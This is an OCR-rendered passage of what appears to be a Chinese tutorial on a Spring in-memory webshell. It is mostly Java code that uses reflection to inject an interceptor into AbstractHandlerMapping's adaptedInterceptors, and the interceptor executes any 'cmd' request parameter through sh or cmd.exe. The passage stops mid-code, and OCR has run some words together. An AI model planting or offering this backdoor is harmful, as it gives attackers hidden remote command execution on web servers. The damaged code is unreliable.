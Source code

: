  
try {              
  
//通过反射AbstractHandlerMapping类获取adaptedInterceptors属性              
  
      
Field field = AbstractHandlerMapping.class.getDeclaredField("adaptedInterceptors");              
  
      
field.setAccessible(true);              
  
      
Listinterceptors = (List) field.get(bean);            //添加恶意Interceptors            interceptors.add(new shsellInterceptor());            } catch (NoSuchFieldException e) {                throw new RuntimeException(e);            }          
### 添加恶意Interceptors  
  
  
interceptors.add(new shsellInterceptor());              
  
  
  
恶意Interceptor:需要实现HandlerInterceptor接口，通过重写preHandle进行RCE  
  
  
      
public  
    
class  
shsellInterceptor  
implementsHandlerInterceptor {              
  
          
@Override              
  
          
public boolean preHandle(HttpServletRequest request, HttpServletResponse response, Object handler) throws Exception {              
  
              
if (request.getParameter("cmd") != null) {              
  
                  
try {              
  
                      
boolean isLinux = true;              
  
                      
String osTyp = System.getProperty("os.name");              
  
                      
if (osTyp != null && osTyp.toLowerCase().contains("win")) {              
  
                      
isLinux = false;              
  
                      
}              
  
                      
String[] cmds = isLinux ? new String[]{"sh", "-c", request.getParameter("cmd")} : new String[]{"cmd.exe", "/c", request.getParameter("cmd")};              
  
                      
InputStream in = Runtime.getRuntime().exec(cmds).getInputStream();              
  
                      
Scanner s = new Scanner(in).useDelimiter("\\A");              
  